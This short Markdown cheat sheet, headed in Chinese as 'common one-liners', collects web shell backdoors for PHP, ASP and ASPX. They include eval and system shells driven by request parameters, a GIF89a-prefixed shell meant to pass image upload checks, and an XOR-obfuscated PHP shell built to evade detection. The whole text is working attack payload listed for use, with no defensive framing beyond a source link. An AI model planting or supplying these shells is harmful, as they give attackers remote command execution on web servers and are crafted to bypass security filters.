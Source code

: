 # 常见一句话

php： <?php @eval($_POST['pass']);?>

<?php system($_GET['cmd']);?>

<?php $_GET['a']($_POST['b'])?>

GIF89a? <script language="php">eval($_REQUEST[shell])</script>

asp： <%eval request ("pass")%>
aspx： <%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>

```
<?php
@$_++; //$_=NULL=0  $_++=1
$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/"); //_POST
${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1]);
?>
```

https://blog.csdn.net/a15803617402/article/details/83589181